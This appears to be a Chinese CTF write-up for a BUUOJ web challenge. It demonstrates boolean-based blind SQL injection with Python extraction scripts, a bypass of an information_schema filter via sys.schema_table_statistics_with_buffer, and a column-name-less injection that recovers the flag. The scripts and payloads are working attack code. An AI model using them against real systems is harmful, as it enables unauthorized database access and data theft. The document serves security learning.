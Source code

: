 ![[Pasted image 20230115083110.png|500]]

![[Pasted image 20230115083049.png|500]]

---

```
id=1
```

```
Nu1L
```

```
id=0
```

```
Error Occured When Fetch Result.
```

```
id=0^1
```

```
Nu1L
```

存在布尔盲注的可能

```python
import requests
import time
import sys

url = "http://xxx.node4.buuoj.cn:81/index.php"

fmt = '(ascii(substr((select(database())),%d,1))>%d)#'
false_re = 'Error'

for i in range(0, 100):
    l = 0
    r = 127
    while l < r:
        mid = (l + r) // 2
        payload = fmt % (i, mid)
        params = {'id': payload}
        response = requests.post(url, params)
        time.sleep(0.1)
        if response.text.find(false_re) >= 0: # mid >= ans
        # if len(response.text) < 100:
            r = mid
        else: # mid < ans
            l = mid + 1
    print(chr(l), end='')
    sys.stdout.flush()

```

```
give_grandpa_pa_pa_pa
```

# 绕过过滤

```
id=information_schema
```

```
SQL Injection Checked.
```

`information_schema`被过滤

```
id=mysql.innodb_table_stats
```

```
SQL Injection Checked.
```

`mysql.innodb_table_stats`也被过滤

参考 [Bypass information_schema](https://cloud.tencent.com/developer/article/1750401)

使用`sys.schema_table_statistics_with_buffer`来绕过

```python
fmt = '(ascii(substr((select(group_concat(table_name))from(sys.schema_table_statistics_with_buffer)where(table_schema)=database()),%d,1))>%d)#'
```

```
users233333333333333,f1ag_1s_h3r3_hhhhh
```

此时可大胆猜测列名为`flag`

```python
fmt = '(ascii(substr((select(flag)from(f1ag_1s_h3r3_hhhhh)),%d,1))>%d)#'
```

```
flag{c65bd808-232c-4510-9cda-a23bc9ea341b}
```

在字段名未知的情况下，也可以进行无字段名注入

```python
import requests
import time
import sys

url = "http://6a664b26-3e33-41a3-afb8-dd1c62b1c403.node4.buuoj.cn:81/index.php"
fmt = '((select 1,"%s") < (select * from f1ag_1s_h3r3_hhhhh))#'
false_re = 'Error'
arg_1 = ''

for i in range(1, 100):
    l = 0
    r = 127
    while l < r:
        mid = (l + r) // 2
        # payload = fmt % (i, mid)
        payload = fmt % (arg_1 + chr(mid))
        # print(payload)
        params = {'id': payload}
        response = requests.post(url, params)
        # print(response.content)
        time.sleep(0.1)
        if response.text.find(false_re) >= 0: # mid >= ans
        # if len(response.text) < 100:
            r = mid
        else: # mid < ans
            l = mid + 1

    if l == 0 or l == 127:
        print('\n#end', end='')
        exit(0)

    print(chr(l - 1), end='')
    arg_1 = arg_1 + chr(l - 1)
    sys.stdout.flush()
```

```
FLAG{D7BDF737-416F-4BC3-94BE-D486B803FCD8|
```

前面因为字符相同时字符串长度越短比较时越小，因此`l`需要`-1`，结尾字符相同时字符串相等，因此`}`被多减了`1`变成了`|`

#Web #SQL注入 #布尔盲注 #无字段名注入